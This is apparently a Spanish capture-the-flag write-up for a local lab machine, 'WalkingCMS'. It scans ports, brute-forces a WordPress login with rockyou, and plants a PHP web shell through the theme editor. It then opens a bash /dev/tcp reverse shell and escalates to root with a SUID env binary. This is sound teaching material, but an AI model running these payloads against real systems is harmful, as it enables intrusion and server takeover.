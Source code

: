 - Tags: #WalkingCMS
---
[Maquina WalkingCMS](https://mega.nz/file/hSF1GYpA#s7jKfPy1ZXVXpxFhyezWyo1zCUmDrp7eYjvzuNNL398) --> Intrusión por fuerza bruta en el panel interno de wordpress y acceso al servidor desde dicho panel.

```bash
7z x walkingcms.zip # Descomprimimos el archivo.
sudo bash auto_deploy.sh walkingcms.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Realizamos una traza ICMP para determinar si tenemos conectividad con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Reconocimiento Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # Usamos nuestra herramienta para detectar puertos.
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts # Realizamos deteccion de puertos expuestos
extractPorts allPorts # Parseamos la informacion mas relevante del escaneo
nmap -sC -sV -p80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y la version detras de estos puertos
```

### Fase Enumeracion Web:
**( 80/tcp open  http    Apache httpd 2.4.57 ((Debian)) )** --> Tenemos un servicio web expuesto.

```bash
whatweb http://172.17.0.2 # Realizamos deteccion de las tecnologias empleadas por esta web
```

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash # Realizamos Fuzzing de directorios
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/] # Resultado
```

**( http://172.17.0.2/wordpress/ )** --> Realizamos fuzzing en estar url

```bash
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash 

# Resultado
/wp-content/          (Status: 200) [Size: 0]
/wp-includes/         (Status: 200) [Size: 60643]
/wp-admin/            (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?redirect_to=http%3A%2F%2F172.17.0.2%2Fwordpress%2Fwp-admin%2F&reauth=1]
```

```bash
wpscan --url http://172.17.0.2/wordpress/ # Realizamos la enumeracion CMS
wpscan --url http://<URL> --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive # Realizamos enumeracion mas intrusiva
```

**( mario )** -> Tenemos un potencial usuario al cual aplicaremos fuerza bruta.

```bash
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario 

# Resultado
[!] Valid Combinations Found:
 | Username: mario, Password: love
```

### Fase Intrusion
```bash
http://172.17.0.2/wordpress/wp-login.php?redirect_to=http%3A%2F%2F172.17.0.2%2Fwordpress%2Fwp-admin%2F&reauth=1

username: mario
password: love
```

**Nota** -> Sabiendo que podemos modificar los temas para derivar a **Ejecucion Remota Comandos** modificaremos el archivo: **( index.php )** que se encuentra el el apartado: **THEME EDITOR**
```bash
<?php system($_GET["cmd"]);?> # Realizaremos una llamada a nivel de sistema y la controlaremos con el parametro ( cmd )
```

```bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami # Apuntamos al recurso que previamente habiamos modificado
```

**Ejecucion Remota De Comandos**

### Ganando Acceso Al Sistema:
```bash
172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/$IP/$PORT <%261'
```

### Fase Escalada Privilegios:
```bash
find / -perm -4000 2>/dev/null

/usr/bin/env # Binario potencial para elevar privilegios.
```

Ejecutamos el binario para escalar al usuario privilegiado **root**
```bash
/usr/bin/env /bin/bash -p
```

```bash
bash-5.2# whoami
root
```